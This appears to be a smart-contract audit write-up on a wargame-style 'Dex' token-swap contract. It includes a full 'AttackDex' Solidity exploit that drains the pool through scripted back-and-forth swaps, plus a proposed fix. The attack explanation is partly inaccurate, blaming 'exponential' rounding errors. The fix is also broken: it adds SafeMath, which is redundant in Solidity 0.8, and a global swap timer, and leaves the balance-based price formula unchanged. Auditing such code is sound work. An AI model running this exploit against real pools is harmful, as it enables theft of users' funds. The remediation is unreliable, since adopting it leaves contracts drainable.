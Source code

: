 ## Dex Smart Contract Audit Report

### Project Overview

This report provides an audit of the `Dex` and `SwappableToken` smart contracts. The audit identifies potential vulnerabilities, outlines attack paths, provides proof of code, assesses the impact, and gives recommendations for improvements.

### Contracts Audited

1. `Dex`
2. `SwappableToken`
3. `AttackDex` (for exploiting the identified vulnerability)

### Summary of Findings

- **Vulnerability**: Price Manipulation via Integer Arithmetic in the Swap Function.
- **Impact**: High - Allows an attacker to drain all tokens from the Dex.
- **Likelihood**: High - The vulnerability is easily exploitable with simple arithmetic operations.
- **Recommendation**: Implement safeguards against price manipulation and correct the arithmetic operations to prevent exploits.

### Vulnerability Details

#### 1. Price Manipulation via Integer Arithmetic

**Description**:
The `Dex` contract uses integer arithmetic to calculate the swap price, leading to potential rounding errors. This allows an attacker to manipulate the token prices by repeatedly swapping tokens back and forth, thereby exponentially increasing their balance and ultimately draining the Dex.

**Proof of Code**:
```solidity
function swap(address from, address to, uint256 amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}

function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```

**Attack Path**:
1. An attacker starts with 10 tokens of `token1` and `token2`.
2. Repeatedly swaps `token1` to `token2` and vice versa to manipulate the prices.
3. Each swap operation results in an exponential increase in the attacker’s token balance due to rounding errors.
4. Eventually, the attacker drains all tokens from the Dex.

**Exploit Code**:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IERC20 {
    function totalSupply() external view returns (uint256);
    function balanceOf(address) external view returns (uint256);
    function transfer(address, uint256) external returns (bool);
    function transferFrom(address, address, uint256) external returns (bool);
    function approve(address, uint256) external returns (bool);
    function allowance(address, address) external view returns (uint256);
}

interface IDex {
    function swap(address, address, uint256) external;
    function getSwapPrice(address, address, uint256) external;
    function token1() external view returns (address);
    function token2() external view returns (address);
}

contract AttackDex {
    IDex private immutable dex;
    IERC20 private immutable token1;
    IERC20 private immutable token2;

    constructor(IDex _dex) {
        dex = _dex;
        token1 = IERC20(dex.token1());
        token2 = IERC20(dex.token2());
    }

    function hack() external {
        // Sending our tokens to this contract
        token1.transferFrom(msg.sender, address(this), 10);
        token2.transferFrom(msg.sender, address(this), 10);

        // Approve the max amount of tokens
        token1.approve(address(dex), type(uint256).max);
        token2.approve(address(dex), type(uint256).max);

        // Price manipulation time
        dex.swap(address(token1), address(token2), 10);
        dex.swap(address(token2), address(token1), 20);
        dex.swap(address(token1), address(token2), 24);
        dex.swap(address(token2), address(token1), 30);
        dex.swap(address(token1), address(token2), 41);

        // At this point, according to our math, we only need to swap 45 tokens to drain all of token1
        dex.swap(address(token2), address(token1), 45);

        require(token1.balanceOf(address(dex)) == 0, "Price manipulation attack failed");
    }
}
```

### Impact

The identified vulnerability allows an attacker to drain all tokens from the Dex contract, resulting in a complete loss of funds. The impact is severe and high, as it compromises the entire liquidity pool, leading to potential financial losses for all users interacting with the Dex.

### Recommendations

1. **Prevent Price Manipulation**:
   - Implement safeguards to prevent price manipulation through repeated swapping.
   - Introduce a minimum time interval between swaps to reduce the potential for exploitation.

2. **Use Safe Arithmetic**:
   - Use a library like OpenZeppelin's `SafeMath` to handle arithmetic operations and prevent overflow/underflow errors.
   - Ensure that the division operation accounts for rounding errors and adjusts the swap amounts accordingly.


 - First, we'll use OpenZeppelin's `SafeMath` library to handle arithmetic operations safely. Additionally, we'll implement a time lock mechanism to prevent rapid repeated swaps.

### Dex Contract with SafeMath and Time Lock

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract Dex {
    using SafeMath for uint256;

    address public token1;
    address public token2;
    uint256 public lastSwapTime;
    uint256 public swapInterval = 1 minutes;

    constructor(address _token1, address _token2) {
        token1 = _token1;
        token2 = _token2;
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        require(block.timestamp >= lastSwapTime + swapInterval, "Swapping too frequently");

        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).transfer(msg.sender, swapAmount);

        lastSwapTime = block.timestamp;
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        uint256 fromBalance = IERC20(from).balanceOf(address(this));
        uint256 toBalance = IERC20(to).balanceOf(address(this));
        require(fromBalance > 0 && toBalance > 0, "Insufficient liquidity");

        // Using SafeMath for division
        uint256 swapPrice = amount.mul(toBalance).div(fromBalance);
        return swapPrice;
    }
}
```

### Key Changes:

1. **SafeMath**:
   - We import and use OpenZeppelin's `SafeMath` for safe arithmetic operations.

2. **Time Lock**:
   - We introduce a `lastSwapTime` variable to track the last time a swap was performed.
   - We introduce a `swapInterval` variable to set a minimum time interval between swaps (e.g., 1 minute).
   - We check that the current timestamp is greater than or equal to `lastSwapTime + swapInterval` before allowing a swap to proceed.

3. **Simplified Swap Function**:
   - The `swap` function now directly transfers the `swapAmount` from the contract to the user without the need for `approve`.

### Notes:
- This implementation prevents rapid repeated swaps, reducing the risk of price manipulation.
- Ensure that the `swapInterval` is set to an appropriate value to balance security and usability.
- Further improvements could include more sophisticated price manipulation safeguards, such as dynamic price adjustments based on recent trading activity.

